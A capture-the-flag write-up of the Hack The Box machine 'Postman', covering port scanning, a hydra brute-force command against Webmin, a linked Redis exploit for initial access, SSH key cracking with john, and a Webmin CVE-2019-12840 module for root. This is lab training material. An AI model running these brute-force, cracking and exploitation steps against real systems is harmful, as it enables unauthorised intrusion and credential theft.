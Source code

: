 ============================== POSTMAN =========================================
============================     HTB         ===================================
========================      By Chazapp      ==================================

Started: 11/02/2019 
Postman on HTB. The IP is 10.10.10.160, its a linux box by TheCyberGeek. Let's
dive in.

We start by standard nmap:
```
$ echo "10.10.10.160    postman.htb" >> /etc/hosts
$ nmap -sV -sC -oA nmap/initial postman.htb 
```

We then run a complete port scan
```
$ nmap -sV -sC -p- -oA nmap/initial postman.htb
``` 
Meanwhile we check the nmap file:
PORT 22 runs ssh
Port 80 runs HTTP
Port 10000  runs MiniServ 1.910 (Webmin httpd)

On http we like gobuster:
```
$gobuster dir --url http://postman.htb -t 100 -w directory-list-2.3-medium.txt 
$ cat gobuster.txt 
/images (Status: 301)
/upload (Status: 301)
/css (Status: 301)
/js (Status: 301)
/fonts (Status: 301)
```

Upload dir show a bunch of jpegs on the website

On port 10000 we find a Webmin admin login page; google says default creds are
admin:<root_password>. 
We try some hydra with no luck:

```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt "https-post-form://postman.htb:10000/session_login.cgi:user=^USER^&pass=^PASS^:Login failed. Please try again."
```

Tried metasploit exploit/unix/webapp/webmin_backdoor ; machine not vulnerable
Tried forcing with `curl -k  -X POST https://postman.htb:10000/password_change.cgi`
to avoid SSL verification, no luck either

When running a nmap -p- script, do not use use -T5 like an ape. Running nmap without
-T5 shows redis port 6379 Redis key-value store 4.0.9

We run this exploit that drops us as `redis` user:
https://github.com/Avinash-acid/Redis-Server-Exploit/ 

We upload LinEnum.sh to /tmp/, then exfiltrate the results.

We find that there is a Matt user to privesc to. This user has the user.txt flag.


Interesting thing: We find this file:
```
[-] Location and Permissions (if accessible) of .bak file(s):
-rwxr-xr-x 1 Matt Matt 1743 Aug 26 00:11 /opt/id_rsa.bak
```

We exfiltrate this file, which is an encrypted SSH key. Using john & rockyou.txt
we crack its password:
```
$ /usr/share/john/ssh2john.py id_rsa_matt.bak > id_rsa_matt.hash
$ john id_rsa_matt.hash --wordlist=/usr/share/wordlists/rockyou.txt 
...
computer2008     (id_rsa_matt.bak)
1g 0:00:00:23 DONE (2020-02-15 16:56) 0.04228g/s 606414p/s 606414c/s 606414C/sa6_123..*7¡Vamos!
```

We then use this password to connect to the box as Matt via ssh
```
$ ssh -i id_rsa_matt.bak Matt@postman.htb
Enter passphrase for key 'id_rsa_matt.bak': 
Connection closed by 10.10.10.160 port 22
root@kali:~/htb/postman# 
```

We immediately drop. Checking sshd_config could tell use why.
Still, we got Matt:computer2008 credentials match. Using those allows us access
to the Webmin admin page.
Using this metasploit module: https://www.exploit-db.com/exploits/46984 that
leverages CVE-2019-12840, We are able to obtain a root shell on the box.

We exfiltrate /home/Matt/user.txt & /root/root.txt
We owned the box.
